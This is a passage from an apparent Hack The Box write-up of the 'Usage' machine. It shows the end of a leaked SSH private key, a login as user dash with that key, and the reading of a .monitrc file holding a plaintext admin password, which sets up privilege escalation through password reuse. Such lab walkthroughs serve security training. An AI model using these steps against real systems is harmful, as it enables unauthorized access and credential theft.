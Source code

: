 ```c
63zj5LQZw2/NvnAAAACmRhc2hAdXNhZ2U=
-----END OPENSSH PRIVATE KEY-----
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Usage/files]
└─$ chmod 600 dash_id_rsa
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Usage/files]
└─$ ssh -i dash_id_rsa dash@usage.htb
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Sat Apr 13 08:18:32 PM UTC 2024

  System load:           0.4794921875
  Usage of /:            66.5% of 6.53GB
  Memory usage:          21%
  Swap usage:            0%
  Processes:             224
  Users logged in:       0
  IPv4 address for eth0: 10.129.44.202
  IPv6 address for eth0: dead:beef::250:56ff:feb0:6199

  => There is 1 zombie process.


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


Last login: Mon Apr  8 12:35:43 2024 from 10.10.14.40
dash@usage:~$
```

## Privilege Escalation to xander through Password Reuse

Besides the `user.txt` we found a file called `.monitrc` which contained some `credentials`.

```c
dash@usage:~$ cat .monitrc 
#Monitoring Interval in Seconds
set daemon  60

#Enable Web Access
set httpd port 2812
     use address 127.0.0.1
     allow admin:3nc0d3d_pa$$w0rd

#Apache
check process apache with pidfile "/var/run/apache2/apache2.pid"
    if cpu > 80% for 2 cycles then alert


#System Monitoring 
check system usage
```